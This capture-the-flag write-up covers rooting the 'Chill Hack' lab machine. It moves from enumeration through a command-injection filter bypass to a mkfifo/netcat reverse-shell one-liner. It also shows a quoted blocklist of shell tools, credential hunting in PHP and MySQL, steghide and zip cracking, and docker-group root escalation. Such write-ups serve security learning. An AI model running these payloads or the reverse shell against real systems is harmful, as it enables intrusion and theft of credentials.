# Chill Hack Room Writeup


### __First Stage : Enumeration__

Let's start with a nmap scan.

```
# Nmap 7.91 scan initiated Tue Dec  8 19:00:53 2020 as: nmap -sC -sV -vv -p- -oN nmapscan 10.10.232.26
Nmap scan report for 10.10.232.26
Host is up, received syn-ack (0.17s latency).
Scanned at 2020-12-08 19:00:54 IST for 1431s
Not shown: 65532 closed ports
Reason: 65532 conn-refused
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  8 19:24:45 2020 -- 1 IP address (1 host up) scanned in 1432.84 seconds
```

So ports which are open are :

* 21
* 22
* 80

If we go to the website at port 80. We can see this



Let's try port 21 .

Since anonymous login is enabled the username and password is **anonymous**

> ftp \<ip>



The content's of the note.txt

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Let's fireup gobuster and scan . We get this .

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.242.211/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/12 20:40:26 Starting gobuster
===============================================================
/about.html (Status: 200)
/contact.html (Status: 200)
/contact.php (Status: 200)
/news.html (Status: 200)
/images (Status: 301)
/index.html (Status: 200)
/blog.html (Status: 200)
/css (Status: 301)
/team.html (Status: 200)
/js (Status: 301)
/fonts (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
```

Interesting directory here is 

* secret


### __Second Stage : Initial access as www-data__

Let's visit it .




I captured the request in __Burpsuite__ and sent it to repeater.

So if I send the command **ls**  I get a "Are you a Hacker" message . So I searched for __'bash command injection filter bypass'__ in google and found this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)

The filter which worked was :

>cat$IFS/etc/passwd




__We need to see what commands are blacklisted in order to get a proper reverse shell.__

Hence we try

>cat${IFS}index.php

So if we go to the source code we can see the index.php .



```
'nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'
```
After trying many filters I came to conclusion that I have to use double quotes filter to get a reverse shell.

>r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<ip> 1234 >/tmp/f


### __Third Stage : www-data to apaar__


So our first step is to run **linpeas** script and get info on privilege escalation to user.

After running we get :




And the contents of **.helpline.sh** are :

```shell
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

Hence the __exploit__ is as follows :




#### And we get the user flag .

### __Fourth Stage : apaar to anurodh__

So I put my public key in the authorized_keys file and ssh into the machine as apaar.


After trying 
>sudo -l




So there is no use of this . From the linpeas scan I found that a database server was running hence I searched for credentials and after sometime I got it in 

>/var/www/files/index.php




Now we can use this command to login to mysql.

> mysql -u root -p

After that I go and list the databases and saw an interesting database called **webportal**. Inside that I found a table called **users**.

```text
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | <redacted hash>                  | 
|  2 | Apaar     | Dahal    | cullapaar |  <redacted hash>                 | 
+----+-----------+----------+-----------+----------------------------------+
```

After cracking these passwords I tried for different users , but none of them worked.


After searching some time I found that there was a port 9001 running in the machine which I missed during the linpeas results.

Hence I do an __ssh port forwarding__ using 

> ssh -i id_rsa apaar@<ip> -L 9001:127.0.0.1:9001

After I go to **http://localhost:9001** .




I use the passwords I got in mysql database and it worked.

So I login and see this.




I had a doubt  on the image there so I downloaded the image and used

> steghide --info hackerwithlaptop.jpg


It was embedded with backup.zip . Hence I extracted it using

> steghide --extract -sf hackerwithlaptop.jpg

When I tried to unzip I found it was password protected .

> zip2john backup.zip > ziphash


Then I used john to crack the password.


I found a file called **source_code.php**

```php
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "<redacted base64 encoded pass>")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```


If we do 

> echo "\<base64 encoded pass>" | base64 -d 

We get pass.


### __Fifth Stage : Anurodh to root__

After we run **id**  command we get 




So I searched __"docker group privilege escalation"__ and found a [GTFObins](https://gtfobins.github.io/gtfobins/docker/) page .   


> docker run -v /:/mnt --rm -it alpine chroot /mnt sh


Hence if we run the command we get root.





